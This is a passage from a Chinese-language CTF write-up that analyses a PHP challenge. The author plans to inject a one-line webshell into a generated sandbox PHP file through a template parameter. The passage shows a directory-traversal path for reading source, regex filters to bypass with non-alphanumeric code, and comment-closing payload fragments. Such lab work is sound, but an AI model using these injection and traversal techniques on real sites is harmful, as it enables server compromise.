 ```php
				}
			}
			else{
				echo("<script>alert('Invalid chars in username!');</script>");
			}
		}
	}
	else{
		setcookie("user", $_POST['user'], time()+3600);
		setcookie("pass", $hash_pass, time()+3600);
		Header("Location:sandbox/$hash_user.php");
	}
}
?>



```

分析：`if`语句中，几个`str_replace`将我们输入的内容替换道`./template.html`,也就是`sandbox/c53001d04a23cf3376f85d56ef4d4b6f.php`,我们可控制参数是`user`,`pass`,`website`,`punctuation`,但是`user`和`pass`限制了长度太短了，所以考虑到直接用`punctuation`,长度比较长，加上可以利用`无字母数字`来绕过`preg_replace`

继续读源码

```
../../../../../../../var/www/html/sandbox/c53001d04a23cf3376f85d56ef4d4b6f.php   ---目录穿越来读
或者读取./template.html   --相对路径来读
```

![image-20220324161918629](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/202203241619908.png)



我们需要将`一句话木马`传到HTML文档

对于`user`参数，

```
/[^\w\/\(\)\*<>]/
```

如果赋值`/*`,就可以注释

![image-20220324170944879](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/202203241709094.png)

pass和website随便填一个。

`punctuation`,数字字母和？

```php
/[a-z,A-Z,0-9>\?]/
```

需要先闭合前面的`注释`，括号和分号

```
*/'');
```
